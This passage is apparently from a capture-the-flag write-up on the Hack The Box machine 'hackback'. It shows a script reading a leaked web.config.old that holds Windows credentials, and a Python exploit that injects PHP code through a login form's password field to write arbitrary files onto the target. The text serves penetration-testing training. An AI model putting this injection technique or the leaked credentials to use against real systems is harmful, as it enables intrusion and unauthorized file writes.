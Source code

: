 ```
    <system.webServer>
        <directoryBrowse enabled="false" showFlags="None" />
    </system.webServer>
</configuration>)
```

Nothing interesting in this one but the `web.config.old` contains some credentials:

```
# ./hackback_read.py /inetpub/wwwroot/new_phish/admin web.config.old
200
200
[04 March 2019, 12:54:18 AM] 10.10.14.23 - Username: test@test.com, Password: <?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <authentication mode="Windows">
        <identity impersonate="true"                 
            userName="simple" 
            password="ZonoProprioZomaro:-("/>
     </authentication>
        <directoryBrowse enabled="false" showFlags="None" />
    </system.webServer>
</configuration>
```

Username: `simple`
Password: `ZonoProprioZomaro:-(`

I can't use these credentials at the moment since there's no other service exposed but they'll be useful later on.

### Tunneling our way in

I can also write files to the target system using the same PHP code execution trick. I wrote another variant of my previous script that uses the `file_put_contents` function to write files to the disk.

```python
#!/usr/bin/python

import base64
import requests
import sys

# Clean up the log file

r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=init&site=hackthebox&password=12345678&session=fb6f90c58d1e2f1a7b86546f3300d6d199ac4c0b5309ada3203b2042b3443a56");
print r.status_code

# Base64 encoded the file we want to write

with open(sys.argv[2]) as f:
	payload = base64.b64encode(f.read())

# print payload

data = {
	"_token": "23I6TdlO18ZPtXYQPeHZyAY4Y8Z9wq1ntgvP8YdA",
	"username": "test@test.com",
	"password": "<?php echo(file_put_contents(\"%s\",base64_decode(\"%s\")));echo ' *****'; ?>" % (sys.argv[1],payload),
	"submit": ""
}
```